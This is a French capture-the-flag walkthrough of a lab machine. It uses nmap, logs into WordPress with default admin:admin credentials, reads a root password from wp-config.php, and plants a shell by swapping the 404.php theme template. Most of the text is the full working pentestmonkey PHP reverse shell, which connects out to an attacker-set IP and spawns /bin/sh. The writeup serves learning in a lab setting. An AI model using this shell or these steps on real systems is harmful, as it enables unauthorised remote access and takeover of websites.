



Nous commençons par démarrer la machine ;)

Machine attaquée : 10.10.115.42

On commence par analyser les ports ouverts :

```
nmap 10.10.115.42
```



On voit qu'il y a notamment le port 80 (service HTTP disponible).

En allant sur la page 

```
http://10.10.115.42/
```

On tombe sur la page d'accueil.



On voit que la photo est cliquable.


Rien d'intéressant.

On analyse le site pour voir les pages disponibles et on en trouve plusieurs.



`wordpress/wp-login.php`

On teste des identifiants connus comme `admin:admin`.


Bingo !

On va dans **Appearance/Editor**.


Puis on remplace le template `404.php` par un reverse shell :

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit(0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

// Daemonise ourself if possible to avoid zombies later

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		$input = fread($sock, $chunk_size);
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		$input = fread($pipes[1], $chunk_size);
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		$input = fread($pipes[2], $chunk_size);
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

**N'oubliez pas de changer le port et de mettre votre IP.**


Puis on valide.


Parfait, ça marche !

On met le port en écoute.


Puis on lance la page où l'on a mis le reverse shell :

```
/wp-content/themes/twentyfourteen/404.php
```


Siuuu ! On a un reverse shell.

On va dans `home/wpadmin` et on retrouve le user flag.


On va aller voir `wp-config.php` pour potentiellement avoir des informations critiques.


Wow, c'est indiqué en grand, on a les informations de connexion root.

On se connecte en tant que root.


Let's go ! On est root.

Il ne reste plus qu'à récupérer le root flag.


Et voilà !